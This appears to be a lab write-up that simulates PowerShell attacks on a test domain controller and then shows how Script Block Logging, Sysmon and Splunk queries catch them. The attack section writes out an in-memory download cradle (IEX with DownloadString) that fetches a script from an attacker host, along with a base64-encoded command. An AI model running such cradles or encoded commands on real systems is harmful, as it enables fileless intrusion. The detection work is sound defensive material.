








# PowerShell Execution

An execution technique. Attackers use PowerShell for post-exploitation because it is built into Windows, runs in memory, and supports flexible obfuscation. This scenario covers basic execution, an in-memory download cradle, and a base64 encoded command, then shows how each is captured by Script Block Logging and by Sysmon process telemetry.

## MITRE ATT&CK Mapping (TTPs)

| Tactic          | Technique                                            | ID        |
| --------------- | ---------------------------------------------------- | --------- |
| Execution       | Command and Scripting Interpreter: PowerShell        | T1059.001 |
| Defense Evasion | Obfuscated Files or Information                      | T1027     |
| Defense Evasion | Obfuscated Files or Information: Command Obfuscation | T1027.010 |

## Prerequisite: Enable PowerShell logging

Script Block Logging (Event 4104) is off by default. It was enabled via Group Policy on the domain controller before any commands were run:

```
Computer Configuration > Policies > Administrative Templates >
Windows Components > Windows PowerShell
  > Turn on PowerShell Script Block Logging   = Enabled
  > Turn on Module Logging                    = Enabled
```

Followed by:

```powershell
gpupdate /force
```



## Attack

The Evil-WinRM session from earlier scenarios was reused. john.smith already had admin rights on the DC (from the group additions in scenario 3), so the session connected and executed commands directly.

### Step 1: Baseline commands (T1059.001)

To confirm execution and generate baseline 4104 events:

```powershell
whoami
hostname
Get-Process
```

Output confirmed the session was running as `corp\john.smith` on `DC01`.



### Step 2: In-memory download cradle (T1059.001)

A small Python HTTP server was started on Kali to serve a harmless test script:

```bash
python3 -m http.server 8080
```

The cradle was then run inside the WinRM session on the DC:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.40.130:8080/test.ps1')
```

Output: `Download cradle executed - this is a test`. Nothing was written to disk; the script was fetched and executed entirely in memory. This pattern (`IEX` plus `DownloadString`) is a signature attacker behaviour for fileless execution.



### Step 3: Encoded command (T1027.010)

A base64 encoded command was generated on Kali (UTF 16 LE, single line):

```bash
echo -n 'Write-Output "Encoded command executed"' | iconv -t UTF-16LE | base64 -w 0
```

The encoded string was then passed to PowerShell on the DC:

```powershell
powershell -EncodedCommand VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAEUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkACAAZQB4AGUAYwB1AHQAZQBkACIA
```

It executed, printing `Encoded command executed`. The point of this step was not the output. It was to test whether Script Block Logging captures the _decoded_ content of an obfuscated command, which is the main defensive value of 4104.



## Detection

### Event 4104 (Script Block Logging)

4104 lives in `Microsoft-Windows-PowerShell/Operational`, not the Security log. With logging enabled, 48 events appeared during the test session.



The 4104 for the encoded command captured the fully decoded script block content (`Write-Output "Encoded command executed"`), even though the original command was passed as base64. Subject was `CORP\john.smith` on `DC01`. This is the headline detection result: obfuscation did not hide the intent from Script Block Logging.



### Splunk

The PowerShell Operational channel was not forwarded by Splunk by default. The forwarder's `inputs.conf` was updated and a dedicated index (`Powershell_Op`) was created on the indexer:

```ini
[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = Powershell_Op
```

After restarting the forwarder and generating fresh events, the data appeared in Splunk:

```spl
index=Powershell_Op EventCode=4104
```

Field extraction was not configured (no Windows TA on this index), so the decoded command was searched by raw event text rather than a parsed field. The expanded event shows `Message=Creating Scriptblock text (1 of 1): Write-Output "Splunk index test 4104"`.



### Sysmon Event 1 (Process Create)

Sysmon was running on the DC and captured the process lineage of the test session. The event for `whoami.exe` shows it was spawned by `powershell.exe`, with the full command line, file hashes, and parent process recorded. This is a complementary detection to 4104: where 4104 captures _what_ the script said, Sysmon Event 1 captures _which process ran and where it came from_.



A Sysmon hunt for PowerShell child processes:

```spl
index=* sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 ParentImage="*powershell.exe*"
| table _time, ComputerName, User, Image, CommandLine, ParentImage
| sort -_time
```

## Summary

| Step                      | TTP       | Detection                     |
| ------------------------- | --------- | ----------------------------- |
| Baseline execution        | T1059.001 | 4104, Sysmon EID 1            |
| In memory download cradle | T1059.001 | 4104 (IEX + DownloadString)   |
| Encoded command           | T1027.010 | 4104 captures decoded content |

Two detection layers cover this attack. Script Block Logging (4104) captures script content even when obfuscated, which is why base64 encoding does not evade it. Sysmon Event 1 captures the process tree, which is useful when a script spawns child processes that 4104 alone would not connect. Both required setup that is not on by default (GPO for 4104, Sysmon installed and forwarded), which is a common gap in real environments.
